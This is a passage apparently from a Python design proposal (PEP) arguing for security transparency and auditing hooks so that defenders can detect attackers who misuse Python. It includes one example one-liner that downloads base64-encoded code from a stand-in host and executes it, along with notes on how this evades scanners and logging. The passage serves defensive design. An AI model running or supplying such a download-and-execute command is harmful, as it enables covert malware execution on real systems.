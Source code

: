 Whether an attacker is seeking to cause direct harm or hide their
tracks, the biggest barrier to detection is a lack of insight. System
administrators with large networks rely on distributed logs to
understand what their machines are doing, but logs are often filtered to
show only error conditions. APTs that are attempting to avoid detection
will rarely generate errors or abnormal events. Reviewing normal
operation logs involves a significant amount of effort, though work is
underway by a number of companies to enable automatic anomaly detection
within operational logs. The tools preferred by attackers are ones that
are already installed on the target machines, since log messages from
these tools are often expected and ignored in normal use.

At this point, we are not going to spend further time discussing the
existence of APTs or methods and mitigations that do not apply to this
PEP. For further information about the field, we recommend reading or
watching the resources listed under `Further Reading`_.

Python is a particularly interesting tool for attackers due to its
prevalence on server and developer machines, its ability to execute
arbitrary code provided as data (as opposed to native binaries), and its
complete lack of internal auditing. This allows attackers to download,
decrypt, and execute malicious code with a single command::

    python -c "import urllib.request, base64;
        exec(base64.b64decode(
            urllib.request.urlopen('http://my-exploit/py.b64')
        ).decode())"

This command currently bypasses most anti-malware scanners that rely on
recognizable code being read through a network connection or being
written to disk (base64 is often sufficient to bypass these checks). It
also bypasses protections such as file access control lists or
permissions (no file access occurs), approved application lists
(assuming Python has been approved for other uses), and automated
auditing or logging (assuming Python is allowed to access the internet
or access another machine on the local network from which to obtain its
payload).

General consensus among the security community is that totally
preventing attacks is infeasible and defenders should assume that they
will often detect attacks only after they have succeeded. This is known
as the "assume breach" mindset. [1]_ In this scenario, protections such
as sandboxing and input validation have already failed, and the
important task is detection, tracking, and eventual removal of the
malicious code. To this end, the primary feature required from Python is
security transparency: the ability to see what operations the Python
runtime is performing that may indicate anomalous or malicious use.
Preventing such use is valuable, but secondary to the need to know that
it is occurring.

To summarise the goals in order of increasing importance:

* preventing malicious use is valuable
* detecting malicious use is important
* detecting attempts to bypass detection is critical
